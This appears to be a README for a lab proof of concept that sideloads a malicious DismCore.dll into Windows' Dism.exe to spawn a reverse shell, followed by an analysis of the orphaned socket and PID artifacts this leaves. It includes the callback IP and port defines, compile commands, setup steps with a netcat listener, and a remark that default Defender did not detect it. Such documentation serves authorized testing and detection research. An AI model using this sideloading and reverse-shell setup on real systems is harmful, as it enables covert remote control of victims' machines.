







# DLL Hijack Reverse Shell Demo - Targeting Dism.exe

## Overview

This project documents a minimal Windows DLL developed and tested in a controlled lab environment to demonstrate DLL hijacking through the legitimate Windows binary `Dism.exe`. The DLL, when placed next to `Dism.exe`, can be loaded by the process and lead to spawning a shell with its I/O redirected to a network connection.

Any tooling from this repository is intended for educational and authorized testing only.

---

## How It Works

1. A custom DLL named `DismCore.dll` is placed in the same directory as `Dism.exe`.
2. When `Dism.exe` is executed, Windows' DLL search order can cause the local `DismCore.dll` to be loaded.
3. The loaded DLL establishes a TCP connection to a preconfigured remote endpoint and spawns `cmd.exe`.
4. The child process may inherit or duplicate the socket handle. If the parent process crashes or exits, the child can remain running while kernel networking tables may still reference the parent PID.
5. This can produce artifacts such as orphaned TCP entries and mismatched parent/child process relationships.

---

## Build & Configuration

> Note: The content below is for lab/educational reproduction in an authorized test environment only.

Edit the source to configure the target host and port:
```c
#define IP   "192.168.1.99"
#define PORT 6666
```

Typical compilation commands:
```bash
# MSVC (Developer Command Prompt)
cl /LD DismCore.dll ws2_32.lib

# MinGW
gcc -shared -o DismCore.dll DismCore.c -lws2_32
```

---

## Setup 

1. Place a test copy of `Dism.exe` in any writable directory you wish.
2. Place `DismCore.dll` in the same directory as the test copy of `Dism.exe`.
3. Start a listener on the attacker host to observe the connection (nc -lvnp 6666 for example).
4. Execute the copy of `Dism.exe` and the reverse shell will connect back to the listener.

---

## Tested Platforms

The proof-of-concept was tested in an isolated lab environment on Windows 10 (Version 22H2, x64)
and on a Windows 11 VM running the most recent public Windows 11 release available at the time of testing with the latest Windows Defender definitions and updates applied.
Both environments produced more or less the exact same results with the DLL being loaded by the targeted binary, a reverse shell was established, and the child cmd.exe retained a socket handle
after the parent process terminated. The demonstration executed without any detection by the default out-of-the-box Defender configuration used in the lab, illustrating how straightforward DLL sideloading can yield
persistent network artifacts. These results are specific to the test configuration and may vary in different environments or with different security products or policies.


---

## Observed Artifacts


### 1. Dism.exe loading our DismCore.dll`
**As you can see upon succesful execution Dism.exe immediately crashes**  



---

### 2. Socket still established after parent exits
**Even although Dism.exe crashes our listener still gets a connection from the VM:**  



---

### 3. Verifying that Dism.exe loaded the local directory version of DismCore.dll
**When we check the modules tab in the properties of Dism.exe we see all the dlls leveraged upon execution**  



---

### 4. Child `cmd.exe` running under a nonexistent parent PID
**Evidently from the screenshot we can notice the reverse shell is now running off an orphaned process through the inherited handle, displayed is the PID of Dism.exe:**  

)

---

### 5. Handle tab showing `\Device\Afd\Endpoint`
**After checking the handles of the process we see the \Device\Afd\Endpoint handle represents an active network socket owned by the process, its presence inside cmd.exe alongside an established TCP connection proves the shell’s input and output are being redirected through that socket):**  


)
---

### 6. Output of netstat -ano | find "ESTABLISHED"`
**However when we run netstat or tcpview, we see the PID of the active process is 5948 which happens to be the initial PID of the parent (Dism.exe) :**  

)
---

### 7. Output of Get-Process -Id 5948 -ErrorAction SilentlyContinue | Format-List Id,ProcessName,StartTime,Path,UserName
**Then again as we can see from the screenshot, there is no corresponding active process with the PID of 5948:**  

)

---

### 8. Identifying the PID of the actual cmd.exe instance hosting the reverse shell 
**Using Process Hacker 2, we pinpoint the instance of cmd.exe leveraged by the shell using the `\Device\Afd\Endpoint` handle :**  

)

---

### 9. Output of netstat -ano | find "7768"
**Once again netstat gives us no output on a PID we just verified exists. So what is happening? The socket connection created earlier was inherited by cmd.exe, which is why you still see traffic associated with port 5948.
The lingering TCP table entry with PID 5948 is just the leftover kernel reference to the parent process that no longer exists.:**  

)

---

## Disclaimer

This repository and its materials are provided for educational, defensive research, and authorized penetration testing purposes only. Do not deploy or use these techniques outside of authorized, isolated lab environments.

---
